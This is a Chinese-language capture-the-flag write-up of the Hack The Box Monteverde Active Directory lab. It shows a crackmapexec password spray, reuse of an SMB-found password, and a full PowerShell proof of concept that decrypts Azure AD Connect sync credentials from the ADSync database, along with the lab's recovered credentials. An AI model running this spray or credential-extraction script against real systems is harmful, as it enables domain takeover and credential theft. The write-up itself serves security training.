 ```yaml
---
title: Hackthebox-Monteverde-Windows_Active
date: 2025-04-25 20:00:00
tags: 红队
categories: 红队打靶-Windows_Active
---
```


# 信息收集

## nmap

![image-20250425095029970](./Monteverde-Windows_active/image-20250425095029970.png)

## rpcclient

![image-20250425100712668](./Monteverde-Windows_active/image-20250425100712668.png)

将用户筛选出来之后使用kerbrute枚举用户是否存在

![image-20250425101242640](./Monteverde-Windows_active/image-20250425101242640.png)

## creakmapexec&&smb

可能会有密码和用户名相同，或者密码是别人的用户名，使用crackmapexec尝试进行爆破

```
crackmapexec smb 10.10.10.172 -u users -p users
```

![image-20250425103238300](./Monteverde-Windows_active/image-20250425103238300.png)

使用爆破到的账号密码连接smb

![image-20250425103456657](./Monteverde-Windows_active/image-20250425103456657.png)

![image-20250425103609696](./Monteverde-Windows_active/image-20250425103609696.png)

![image-20250425103620803](./Monteverde-Windows_active/image-20250425103620803.png)

在smb中找到一个xml文件，其中有password，由于该密码实在mhope目录下，上面枚举出来的用户也有mhope，猜测这就是mhope用户的密码，可以成功命令执行，5985端口开启，可以使用evil-winrm远程连接到windows

![image-20250425105014924](./Monteverde-Windows_active/image-20250425105014924.png)

```
mhope:4n0therD4y@n0th3r$
```

![image-20250425111205446](./Monteverde-Windows_active/image-20250425111205446.png)

## 提权

[Azure AD Connect for 红队人员 - XPN 信息安全博客 --- Azure AD Connect for Red Teamers - XPN InfoSec Blog](./https://blog.xpnsec.com/azuread-connect-for-redteam/)需要用到该漏洞，原理就是有个dll文件负责对秘钥管理和数据加密，从数据库查询到加密秘钥之后使用该文件进行解密

poc代码

```powershell
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

![image-20250425150627957](./Monteverde-Windows_active/image-20250425150627957.png)

```
administrator:d0m@in4dminyeah!
```

